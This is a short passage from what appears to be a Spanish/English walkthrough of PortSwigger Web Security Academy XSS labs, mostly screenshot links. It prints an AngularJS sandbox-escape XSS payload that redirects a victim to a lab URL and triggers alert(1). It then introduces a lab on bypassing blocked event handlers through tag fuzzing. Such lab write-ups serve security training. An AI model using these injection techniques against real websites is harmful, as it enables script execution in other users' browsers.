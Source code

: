 - Injection

```html
<script>
location="https://0a8500a904fa3029801458f8003500af.web-security-academy.net/?search=%3Cinput+id%3Dx+ng-focus%3D%24event.composedPath%28%29%7CorderBy%3A%27%28z%3Dalert%29%281%29%27%3E#x"
</script>
```

## XSS con eventos y atributos bloqueados || Reflected XSS with event handlers and href attributes blocked

![](/img2/Pasted%20image%2020250727233612.png)

![](/img2/Pasted%20image%2020250727233801.png)

![](/img2/Pasted%20image%2020250727233844.png)

> Haciendo un poco de fuzzing podemos descubrir que etiquetas están permitidas.

![](/img2/Pasted%20image%2020250727234300.png)
